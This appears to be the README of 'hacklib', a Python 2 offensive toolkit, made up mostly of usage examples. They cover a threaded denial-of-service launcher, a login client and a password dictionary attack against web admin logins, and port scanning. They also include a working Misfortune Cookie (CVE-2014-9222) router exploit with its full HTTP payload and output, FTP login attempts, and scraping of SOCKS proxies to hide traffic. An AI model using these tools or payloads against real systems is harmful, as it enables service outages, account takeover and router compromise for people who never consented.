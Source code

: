 # hacklib
![MIT License](https://img.shields.io/github/license/mashape/apistatus.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)
##### Toolkit for hacking enthusiasts using Python.
hacklib is a Python module for hacking enthusiasts interested in network security. It is currently in active development.

#### Examples of Usage
-
Multi-threaded Denial of Service (DOS) stress-testing:
```python
import hacklib

dos = hacklib.DOSer()
# Create 50 threads to send GET requests for 30 seconds
dos.launch('127.0.0.1', duration=30, threads=50)
```
-
Universal login client for almost all HTTP/HTTPS form-based logins and HTTP Basic Authentication logins:

```python
import hacklib

ac = hacklib.AuthClient()
# Logging into a gmail account
htmldata = ac.login('https://gmail.com', 'email', 'password')

# Returns HTML whether login works or not.
try:
    if 'Inbox' in htmldata: print 'Login Success.'
    else: print 'Login Failed.'
except: print 'Couldn't even connect. :('

# For logins using HTTP Basic Auth:
try: 
    htmldata = ac.login('http://somewebsite.com', 'admin', 'password')
except: pass #login failed
```
Simple dictionary attack using AuthClient:
```python
import hacklib

ac = hacklib.AuthClient()
# Get the top 100 most common passwords
passwords = hacklib.topPasswords(100)

for p in passwords:
    htmldata = ac.login('http://yourwebsite.com/login', 'admin', p)
    if htmldata and 'welcome' in htmldata.lower():
        print 'Password is', p
        break
```
-
Port Scanning:
```python
from hacklib import *

ps = PortScanner()
ps.scan(getIP('yourwebsite.com'))
# By default scans the first 1024 ports. Use ps.scan(IP, port_range=(n1, n2), timeout=i) to change default

# After a scan, open ports are saved within ps for reference
if ps.portOpen(80):
    # Establish a TCP stream and sends a message
    send(getIP('yourwebsite.com'), 80, message='GET HTTP/1.1 \r\n')
```

Misfortune Cookie Exploit (CVE-2014-9222) using PortScanner:
```python
>>> import hacklib

# Discovery
>>> ps = hacklib.PortScanner()
>>> ps.scan('192.168.1.1', (80, 81))
Port 80:
HTTP/1.1 404 Not Found
Content-Type: text/html
Transfer-Encoding: chunked
Server: RomPager/4.07 UPnP/1.0
EXT:
# The banner for port 80 shows us that the server uses RomPager 4.07. This version is exploitable.

# Exploitation
>>> payload = '''GET /HTTP/1.1
Host: 192.168.1.1
User-Agent: googlebot
Accept: text/html, application/xhtml+xml, application/xml; q=09, */*; q=0.8
Accept-Language: en-US, en; q=0.5
Accept-Encoding: gzip, deflate
Cookie: C107351277=BBBBBBBBBBBBBBBBBBBB\x00''' + '\r\n\r\n'
>>> hacklib.send('192.168.1.1', 80, payload)
# The cookie replaced the firmware's memory allocation for web authentication with a null bye.
# The router's admin page is now fully accessible from any web browser.
```
-
FTP authentication:
```python
import hacklib
ftp = hacklib.FTPAuth('127.0.0.1', 21)
try:
    ftp.login('username', 'password')
except:
    print 'Login failed.'
```
-
Socks4/5 proxy scraping and tunneling
```python
>>> import hacklib
>>> import urllib2
# Scrape recently added Socks proxies from the internet
>>> proxylist = hacklib.getProxies()
>>> proxy = hacklib.Proxy()
# Automatically find and connect to a working proxy in proxylist
>>> proxy.connect(proxylist)
>>> proxy.IP
u'41.203.214.58'
>>> proxy.port
65000
>>> proxy.country
u'KE'
# All Python network activity across all modules are routed through the proxy
>>> urllib2.urlopen('http://icanhazip.com/').read()
'41.203.214.58\n'
# Notes: Only network activity via Python are masked by the proxy.
# Network activity on other programs such as your webbrowser remain unmasked.
# To filter proxies by country and type:
# proxylist = hacklib.getProxies(country_filter = ('RU', 'CA', 'SE'), proxy_type='Socks5')
```
